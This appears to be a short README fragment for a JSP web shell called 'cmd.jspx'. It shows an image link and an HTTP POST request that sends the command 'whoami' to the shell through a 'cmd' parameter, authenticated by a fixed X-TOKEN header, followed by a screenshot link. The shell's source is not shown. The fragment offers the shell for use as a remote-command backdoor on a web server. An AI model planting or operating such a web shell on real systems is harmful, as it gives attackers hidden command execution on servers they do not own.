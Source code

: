 How to use this `cmd.jspx`
```
POST /cmd.jspx HTTP/1.1
Host: <your host>
X-TOKEN: 9ebc314e6dacf0a6ab1c08c444b3deb50338b188a70cad862a6482d1ae0e5be2
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cmd=whoami
```
![image](https://user-images.githubusercontent.com/24661746/131242876-a5a1c8e4-f72d-4b0c-9ce6-26f6f6cbb44c.png)
